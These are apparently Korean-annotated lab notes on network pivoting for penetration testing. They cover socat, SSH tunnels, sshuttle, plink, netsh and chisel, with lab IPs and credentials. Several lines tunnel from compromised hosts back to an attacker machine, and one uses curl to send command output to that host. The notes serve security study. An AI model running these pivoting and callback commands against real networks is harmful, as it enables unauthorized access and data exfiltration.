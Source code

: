 ```bash
ip addr
# 네트워크 인터페이스의 IP 주소 확인

ip route
# 라우팅 테이블 확인
```
---
# Port Forwarding with Socat
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432

socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22
```
- `-ddd`: 디버그 레벨을 높여 상세 로그 출력
- `TCP-LISTEN:<포트>`: 지정된 포트에서 TCP 연결을 대기
- `fork`: 클라이언트 접속 시 프로세스를 fork 하여 다중 접속 처리
- `TCP:<IP>:<포트>`: 원격 서버와 TCP 연결
---
# SSH Local Port Forwarding
```bash
# 내부의 다른 컴퓨터(172.16.50.21)로 연결
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215

# 내부 컴퓨터로 연결
ssh -N -L 5901:localhost:5901 commander@192.168.121.55

smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234
```
- `ssh -N`: 원격 쉘 실행 없이 포트 포워딩만 설정
- `-L [bind_address:]port:host:hostport`: 로컬 포트를 원격 호스트의 특정 포트로 포워딩
---
# SSH Dynamic Port Forwarding
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215

# /etc/proxychains4.conf
socks5 192.168.50.63 9999

proxychains smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- `-D [bind_address:]port`: SOCKS 프록시 생성
- `proxychains`: 지정된 프록시를 통해 명령 실행
---
# SSH Remote Port Forwarding
```bash
sudo systemctl start ssh

ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
- `-R [bind_address:]port:host:hostport`: 원격 서버의 포트를 로컬로 포워딩
---
# SSH Remote Dynamic Port Forwarding
```bash
ssh -N -R 9998 kali@192.168.118.4

tail /etc/proxychains4.conf

socks5 127.0.0.1 9998
```
---
# sshuttle
```bash
socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22

sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24

smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234
```
- `sshuttle -r <user@host:port> <subnet>`: VPN 유사 터널링
---
# ssh.exe
```bash
# kali
sudo systemctl start ssh

ssh.exe -N -R 9998 kali@192.168.118.4

tail /etc/proxychains4.conf

socks5 127.0.0.1 9998

proxychains psql -h 10.4.50.215 -U postgres
```
---
# Plink
```powershell
C:\Windows\Temp\plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:9833:127.0.0.1:3389 192.168.118.4
```
```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:127.0.0.1:9833
```
- `-ssh`: SSH 프로토콜 사용
- `-l <user>`: 로그인 사용자명
- `-pw <password>`: 비밀번호
- `-R`: 원격 포트 포워딩
---
# Netsh
```powershell
netsh interface portproxy add v4tov4 listenport=2222 '
listenaddress=192.168.50.64 connectport=22 connectaddress=10.4.50.215

netsh advfirewall firewall add rule name="port_forward_ssh_2222" '
protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow

ssh database_admin@192.168.50.64 -p2222

netsh advfirewall firewall delete rule name="port_forward_ssh_2222"

netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
- `netsh interface portproxy add`: 포트 프록시 추가
- `netsh advfirewall firewall add rule`: 방화벽 규칙 추가
- `delete rule`: 규칙 삭제
- `del v4tov4`: 포트 프록시 제거
---
# Chisel
```bash
chisel server --port 8080 --reverse
```
- `server`: Chisel을 서버 모드로 실행
- `--port 8080`: 서버가 수신 대기할 포트 번호 (이 예시에서는 8080)
- `--reverse`: 클라이언트가 리버스 포워딩을 요청할 수 있도록 허용

```bash
chisel client 10.10.14.3:8000 R:80:127.0.0.1:80
```

```bash
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```
- `client <서버주소:포트>`: 지정된 서버에 클라이언트 모드로 접속
- `R:socks`: 서버 측에서 리버스 SOCKS 프록시를 생성  
  (즉, 서버에서 접속할 수 있는 SOCKS 포트가 열림)
- `&> /tmp/output`: 표준 출력과 표준 에러를 `/tmp/output` 파일로 리다이렉트
- `curl --data @/tmp/output <url>`: 실행 결과 로그를 서버(192.168.118.4:8080)로 전송



```bash
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```
- `ssh -o ProxyCommand=...`: SSH 접속 시 프록시 명령어 지정
- `ncat`: netcat의 확장 버전으로 다양한 프록시 지원
- `--proxy-type socks5`: SOCKS5 프로토콜을 사용
- `--proxy 127.0.0.1:1080`: 로컬에서 실행 중인 SOCKS 프록시(Chisel을 통해 생성된 것)
- `%h %p`: SSH가 접속하려는 원격 호스트와 포트로 치환됨
- `database_admin@10.4.50.215`: 최종적으로 접속할 SSH 서버 계정 및 주소
---
